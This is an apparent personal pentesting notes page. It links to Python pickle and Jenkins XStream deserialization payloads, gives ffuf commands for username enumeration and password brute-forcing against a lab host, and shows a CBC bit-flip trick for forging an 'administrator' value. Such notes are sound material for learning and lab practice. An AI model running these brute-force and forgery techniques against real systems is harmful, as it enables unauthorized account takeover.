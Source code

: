 ```yaml
---
title: RND
date: 2021-10-30
categories:
  - Notes
tags:
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```



<h2 id="serializations">Serialization</h2>
<h6 id="python-serialization">Python</h6>
<a href="https://github.com/allenjedb/allenjedb.github.io/blob/main/assets/stuff/Serializations/python-pickle.txt">Python cPickle</a>


<h6 id="jenkin-serialization">Serialization Issue Jenkins -XStream</h6>
<p>remote code execution on the server hosting Jenkins.</p>
<p>Example xml payload using groovy library</p>
<a href="https://github.com/allenjedb/allenjedb.github.io/blob/main/assets/stuff/Serializations/Jenkins-groovy.txt">Jenkins-groovy payload</a>
<p>has a metasploit module</p>


<h2 id="brute-forcing">BruteForcing</h2>
<h6 id="ffuf">FFUF</h6>
<code>ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"</code>    

 <code>ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
</code>       


<h2>cbc - user IRB in terminal</h2>
<p>cdministrator -- administrator</p>
<code>0x75^'a'.ord^'c' == 119</code>
<code>"%2x" % 119 == 77</code>
